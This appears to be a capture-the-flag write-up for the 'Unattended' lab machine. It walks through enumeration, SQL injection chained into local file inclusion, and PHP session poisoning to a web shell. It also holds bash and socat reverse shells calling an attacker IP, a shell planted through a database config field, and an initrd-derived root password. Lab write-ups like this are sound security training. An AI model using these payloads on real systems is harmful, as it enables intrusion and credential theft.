



# Unattended
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.126 --min-rate 5000                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 16:02 BST
Nmap scan report for 10.10.10.126 (10.10.10.126)
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 38.83 seconds
```
```
└─$ nmap -Pn -p80,443 -sC -sV 10.10.10.126 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 16:04 BST
Nmap scan report for 10.10.10.126 (10.10.10.126)
Host is up (0.20s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.10.3
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.10.3
443/tcp open  ssl/http nginx 1.10.3
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
| Not valid before: 2018-12-19T09:43:58
|_Not valid after:  2021-09-13T09:43:58
|_http-server-header: nginx/1.10.3

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.19 seconds

```

- Web server


- `vhosts`
```
└─$ wfuzz -u https://www.nestedflanders.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.nestedflanders.htb' --hw 1
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://www.nestedflanders.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000001:   200        368 L    933 W      10701 Ch    "www"
```

- `gobuster`
```
└─$ gobuster dir -u https://www.nestedflanders.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 50 -k -b 404,503 --exclude-length 311
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://www.nestedflanders.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] Exclude Length:          311
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.php            (Status: 200) [Size: 1244]
/dev                  (Status: 301) [Size: 1]

```

## Foothold
- We have 3 pages on `https://www.nestedflanders.htb/index.php`
  - Click `main` and you will see `?id=25`
  - Other pages show identical parameter but with other value
  - If we visit `about` page, but also add `'`, like `https://www.nestedflanders.htb/index.php?id=465'`, we are redirected to `main` page
  - Let's launch `sqlmap`
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch   
<SNIP>
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 300 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 1933=1933 AND 'petC'='petC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=465' AND (SELECT 5116 FROM (SELECT(SLEEP(5)))hwSG) AND 'EjoV'='EjoV
---
[16:31:09] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:31:09] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/www.nestedflanders.htb'

[*] ending @ 16:31:09 /2023-10-28/

```

- I'll dump the databases and the tables
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch --dbs
<SNIP>
available databases [2]:
[*] information_schema
[*] neddy
```
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch -D neddy --tables
<SNIP>
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```
- I'll dump everyting in the background
- If we visit `dev` it says `dev site has been moved to his own server `
  - Could be `dev.nestedflanders.htb`
  - I tried fuzzing subdomains but no luck
  - Based on forum hints, I got on the right track
  - So there seems like another way to path traverse if `nginx` is used as proxy
    - https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
    - https://www.youtube.com/watch?v=CIhHpkybYsY&t=572s
  - If location doesn't end with `/`, we can esca[e the path
```
location /i { # Have to be /i/
    alias /data/w3/images/;
}
``` 

- We can test for misconfiguration
  - If we consider basic path: `/var/www/`, we gave `html` and probably `dev` folders
  - We can't traverse to `html`, since we are in `dev`
  - But if we perform path traversing mentioned above, we have a hit
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev/../html/index.html | grep HTTP
HTTP/1.1 404 Not Found
```
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/index.html | grep HTTP
HTTP/1.1 200 OK
                If you can read this page, it means that the Apache HTTP server installed at
                <tt>/var/www/html/index.html</tt>) before continuing to operate your HTTP server.
                                                                                                    
```

- We can dump the `index.php` which was used in root path
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/index.php            
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Sat, 28 Oct 2023 16:33:51 GMT
Content-Type: application/octet-stream
Content-Length: 2721
Last-Modified: Wed, 19 Dec 2018 15:37:40 GMT
Connection: keep-alive
ETag: "5c1a65c4-aa1"
Accept-Ranges: bytes

<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
?>

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Ne(ste)d Flanders</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="bootstrap.min.css">
  <script src="jquery.min.js"></script>
  <script src="bootstrap.min.js"></script>
</head>
<body>

<div class="container">
  <h1>Ne(ste)d Flanders' Portfolio</h1>
</div>

<div class="container">
<div center class="row">
<?php

$sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
if ($debug) { echo "sql: $sql<br>\n"; }

$result = $conn->query($sql);
if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                //if ($debug) { echo "rowid: ".$row['id']."<br>\n"; } // breaks layout
                echo '<div class="col-md-2"><a href="index.php?id='.$row['id'].'" target="maifreim">'.$row['name'].'</a></div>';
                }
} else {
?>
        <div class="col-md-2"><a href="index.php?id=25">main</a></div>
        <div class="col-md-2"><a href="index.php?id=465">about</a></div>
        <div class="col-md-2"><a href="index.php?id=587">contact</a></div>
        <?php
}

?>
</div> <!-- row -->
</div> <!-- container -->


<div class="container">
<div class="row">
<!-- <div align="center"> -->
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>

</body>
</html>

<?php
$conn->close();
?>

```

- We have a `LFI`
```
<SNIP>
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;
include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
<SNIP>
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>

</body>
</html>

<?php
<SNIP>
```

- Let's check another file included
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/6fb17817efb4131ae4ae1acae0f7fd48.php
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Sat, 28 Oct 2023 16:38:29 GMT
Content-Type: application/octet-stream
Content-Length: 256
Last-Modified: Wed, 19 Dec 2018 13:32:41 GMT
Connection: keep-alive
ETag: "5c1a4879-100"
Accept-Ranges: bytes

<?php
session_start();
if (isset($_SESSION['user_name'])){
        $user_name = $_SESSION['user_name'];
}

foreach ($_COOKIE as $key => $val) {
        $_SESSION[$key] = $val;
}

/* removed everything because of undergoing investigation, please check dev and staging */
```

- We control the `id` value
- But we have to bypass several checks from `(array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids))`
  - `array_key_exists('id', $_GET)` - The parameter needs to be present
  - `in_array(intval($_GET['id']),$valid_ids)` - The number should be from `valid_ids`
  - `intval($_GET['id']) == $_GET['id']` - It uses `==` operator, which is [different from `===`](https://stackoverflow.com/questions/80646/how-do-the-php-equality-double-equals-and-identity-triple-equals-comp)  
    - Another thing is that `intval` processes the string which starts with `int`, while it drops the rest of it
```
php > echo intval("13");
13
php > echo intval("13 TEST");
13
php > 
```

- Okay, since we got familiar with checks, we have to inject our payload to: 
  - `SELECT name FROM idname where id = '".$_GET['id']."'`
  - `SELECT path from filepath where name = '".$tpl."'`
- `SELECT name FROM idname where id = '".$_GET['id']."'` returns the page if it exists in the table or it will return us the `main` page
  - We have to control the output of the query
  - So we can make it return `False` then `UNION` query anything we want
  - The statement will be executed since it's a valid one and passes the check `$result->num_rows > 0` 
  - The payload will be in the form of: `<VALID_ID>' AND 1=2 UNION SELECT "<ANYTHING>"-- -`
  - We can test it with `https://www.nestedflanders.htb/index.php?id=id=465' and 1=2 union select "about"-- -`
    - It should return `about` page


- Now, we have to inject to second query `SELECT path from filepath where name = '".$tpl."'`
  - The payload will had `<VALID_ID>' AND 1=2 UNION SELECT "<ANYTHING>"`
  - Now we place the second payload instead of `ANYTHING`
    - Don't forget to escape the quotes
  - Now, we have: `<VALID_ID>' AND 1=2 UNION SELECT "TEST\' UNION SELECT \"/etc/passwd\"-- -"-- -`
  - For example, `https://www.nestedflanders.htb/index.php?id=465' and 1=2 union select "test\' union select \"/etc/passwd\"-- -"-- -`



- To get a shell, we can perform `log/session poisoning`
  - There are 2 paths:
    - via `/var/log/nginx/access.log`
      - https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions
    - or via session cookie and `/var/lib/php/sessions/`
      - https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions
  - I have already done the attack in other boxes via first method, so I will try to do it using second one
    - https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-session
  - First, we need to know our `PHPSESSID`
    - Then we prepend the prefix, like `sess_<PHPSESSID>`
    - Now using via `LFI` we read `/var/lib/php/sessions/sess_<PHPSESSID>`


- Now, we can set another cookie
  - Make sure add space before new cookie


- We now can insert `php` code, which should be executed
  - `SHELL=<?php system($_REQUEST['cmd']); ?>` - the code should be url-encoded



- Great, let's get reverse shell
  - `bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/443 0>&1'` - url-encoded


## User
- Looks like `hidepid` is configured
  - https://linux-audit.com/linux-system-hardening-adding-hidepid-to-proc/
```
www-data@unattended:/var/www/html$ ps awuxx
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data   678  0.0  0.3 180664  6864 ?        S    09:21   0:00 nginx: worker process
www-data  1163  0.0  0.0   4288   740 ?        S    09:29   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
www-data  1164  0.0  0.1  17944  2816 ?        S    09:29   0:00 bash -c bash -i >& /dev/tcp/10.10.16.4/443 0>&1
www-data  1165  0.0  0.1  18168  3316 ?        S    09:29   0:00 bash -i
www-data  1187  0.0  0.4  35912  8468 ?        S    09:31   0:00 python3 -c import pty;pty.spawn("/bin/bash")
www-data  1188  0.0  0.1  18192  3252 pts/0    Ss   09:31   0:00 /bin/bash
www-data  1203  0.0  0.1  36636  2812 pts/0    R+   09:32   0:00 ps awuxx

```

- `noexec` is configured on `tmp` and `/dev/shm`
```
www-data@unattended:/$ mount | grep -e "tmp " -e shm
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
```

- Let's check `mysql`, since there is nothing else to check
```
www-data@unattended:/$ mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| neddy              |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
| orders          |
| payments        |
| productlines    |
| products        |
+-----------------+
11 rows in set (0.00 sec)

MariaDB [neddy]> 

```

- Let's check `config` table
```
MariaDB [neddy]> select * from config;
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
|  54 | offline                 | 0                                                                        |
|  55 | offline_message         | Site offline, please come back later                                     |
|  56 | display_offline_message | 0                                                                        |
|  57 | offline_image           |                                                                          |
|  58 | sitename                | NestedFlanders                                                           |
|  59 | editor                  | tinymce                                                                  |
|  60 | captcha                 | 0                                                                        |
|  61 | list_limit              | 20                                                                       |
|  62 | access                  | 1                                                                        |
|  63 | debug                   | 0                                                                        |
|  64 | debug_lang              | 0                                                                        |
|  65 | dbtype                  | mysqli                                                                   |
|  66 | host                    | localhost                                                                |
|  67 | live_site               |                                                                          |
|  68 | gzip                    | 0                                                                        |
|  69 | error_reporting         | default                                                                  |
|  70 | ftp_host                | 127.0.0.1                                                                |
|  71 | ftp_port                | 21                                                                       |
|  72 | ftp_user                | flanders                                                                 |
|  73 | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
|  74 | ftp_root                | /                                                                        |
|  75 | ftp_enable              | 1                                                                        |
|  76 | offset                  | UTC                                                                      |
|  77 | mailonline              | 1                                                                        |
|  78 | mailer                  | mail                                                                     |
|  79 | mailfrom                | nested@nestedflanders.htb                                                |
|  80 | fromname                | Neddy                                                                    |
|  81 | sendmail                | /usr/sbin/sendmail                                                       |
|  82 | smtpauth                | 0                                                                        |
|  83 | smtpuser                |                                                                          |
|  84 | smtppass                |                                                                          |
|  85 | smtppass                |                                                                          |
|  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
|  87 | smtphost                | localhost                                                                |
|  88 | smtpsecure              | none                                                                     |
|  89 | smtpport                | 25                                                                       |
|  90 | caching                 | 0                                                                        |
|  91 | cache_handler           | file                                                                     |
|  92 | cachetime               | 15                                                                       |
|  93 | MetaDesc                |                                                                          |
|  94 | MetaKeys                |                                                                          |
|  95 | MetaTitle               | 1                                                                        |
|  96 | MetaAuthor              | 1                                                                        |
|  97 | MetaVersion             | 0                                                                        |
|  98 | robots                  |                                                                          |
|  99 | sef                     | 1                                                                        |
| 100 | sef_rewrite             | 0                                                                        |
| 101 | sef_suffix              | 0                                                                        |
| 102 | unicodeslugs            | 0                                                                        |
| 103 | feed_limit              | 10                                                                       |
| 104 | lifetime                | 1                                                                        |
| 105 | session_handler         | file                                                                     |
+-----+-------------------------+--------------------------------------------------------------------------+
```

- We can insert and update entires in `neddy` database
```
MariaDB [neddy]> SHOW GRANTS;
+-----------------------------------------------------------------------------------------------------------------------+
| Grants for nestedflanders@localhost                                                                                   |
+-----------------------------------------------------------------------------------------------------------------------+
| GRANT USAGE ON *.* TO 'nestedflanders'@'localhost' IDENTIFIED BY PASSWORD '*9E1AD37C883F20EE8B5FB34B4B150262F9671A58' |
| GRANT SELECT, INSERT, UPDATE ON `neddy`.* TO 'nestedflanders'@'localhost'                                             |
+-----------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

- The interesting entry is `checkrelease` which has a value of `/home/guly/checkbase.pl;/home/guly/checkplugins.pl;`
  - Maybe there is an execution happening, but since we can't run `pspy` due to `hidepid`, we can only test it by changing
  - The box has no `nc`, but has `socat` installed
  - update config set option_value = "socat TCP:10.10.16.4:6666 EXEC:'bash -li',pty,stderr,setsid,sigint,sane" where id = 86;
```
MariaDB [neddy]> update config set option_value = "socat TCP:10.10.16.4:80 EXEC:'bash -li',pty,stderr,setsid,sigint,sane" where id = 86;
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [neddy]> select * from config where id = 86;
+----+--------------+-------------------------------------------------------------------------+
| id | option_name  | option_value                                                            |
+----+--------------+-------------------------------------------------------------------------+
| 86 | checkrelease | socat TCP:10.10.16.4:80 EXEC:'bash -li',pty,stderr,setsid,sigint,sane |
+----+--------------+-------------------------------------------------------------------------+
1 row in set (0.00 sec)

```

- After few seconds we receive a connection



## Root
- User groups show us unusual group `grub`, which is not listed in https://wiki.debian.org/SystemGroups
```
guly@unattended:~$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
```

- Let's check the files/directories owned by that group
```
guly@unattended:~$ find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-8-amd64
guly@unattended:~$ file /boot/initrd.img-4.9.0-8-amd64
/boot/initrd.img-4.9.0-8-amd64: gzip compressed data, last modified: Wed Sep 28 10:31:45 2022, from Unix
```
- It's a [initrd](https://docs.kernel.org/admin-guide/initrd.html)
  - `initrd provides the capability to load a RAM disk by the boot loader. This RAM disk can then be mounted as the root file system and programs can be run from it.`
  - Since it contains initial settings and executables, let's check if there is something interesting
    - Lets uncompress it via `zcat /boot/initrd.img | cpio -idmv`
    - https://access.redhat.com/solutions/24029
```
guly@unattended:/dev/shm/archive$ zcat /boot/initrd.img-4.9.0-8-amd64 | cpio -idmv
.
boot
boot/guid
<SNIP>
```
```
guly@unattended:/dev/shm/archive$ ls
bin  boot  conf  etc  init  lib  lib64  run  sbin  scripts
```

- Started with looking at the scripts folder
  - Noticed `cryptroot` script
  - While scrolling through, we see an interesting comment by `guly`
```
guly@unattended:/dev/shm/archive/scripts$ ls -lha  local-top/
total 20K
drwxr-xr-x 2 guly guly  100 Oct 29 10:02 .
drwxr-xr-x 8 guly guly  220 Oct 29 10:02 ..
-rwxr-xr-x 1 guly guly  721 May  9  2017 cryptopensc
-rwxr-xr-x 1 guly guly 9.3K Dec 20  2018 cryptroot
-rw-r--r-- 1 guly guly  162 Sep 28  2022 ORDER
```
```
<SNIP>
# guly: we have to deal with lukfs password sync when root changes her one
if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
/sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
                message "cryptsetup: cryptsetup failed, bad password or options?"
                sleep 3
                continue
        fi
fi

<SNIP>
```

- We have `if` block with `crypttarget="$crypttarget" cryptsource="$cryptsource" /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen`
  - We see an execution `uinitrd c0m3s3f0ss34nt4n1` passed to `$cryptopen`, which is a `cryptsetup`
    - `Cryptsetup provides an interface for configuring encryption on block devices (such as /home or swap partitions), using the Linux kernel device mapper target dm-crypt. It features integrated Linux Unified Key Setup (LUKS) support.`
    - https://man7.org/linux/man-pages/man8/cryptsetup.8.html
  - So `uinitrd` probably passes a password to `cryptsetup`
    - https://superuser.com/questions/1179046/passing-luks-passphrase-to-unlock-encrypted-rootfs-with-script-instead-of-passin
```
<SNIP>
# Prepare commands
cryptopen="/sbin/cryptsetup -T 1"
if [ "$cryptdiscard" = "yes" ]; then
        cryptopen="$cryptopen --allow-discards"
fi
<SNIP>
```

- Let's try running it
  - I forgot we had `noexec` set, so I had to move the binary `guly` home directory
```
guly@unattended:/dev/shm/archive$ ./sbin/uinitrd c0m3s3f0ss34nt4n1
bash: ./sbin/uinitrd: Permission denied
guly@unattended:/dev/shm/archive$ chmod +x ./sbin/uinitrd
guly@unattended:/dev/shm/archive$ ./sbin/uinitrd c0m3s3f0ss34nt4n1
bash: ./sbin/uinitrd: Permission denied
```
```
uly@unattended:/dev/shm/archive$ cp ./sbin/uinitrd ~/
guly@unattended:/dev/shm/archive$ chmod +x ~/uinitrd 
guly@unattended:/dev/shm/archive$ ~/uinitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6
```

- We can `su` as `root`
```
/dev/shm/archive$ su -
Password: 
root@unattended:~#
```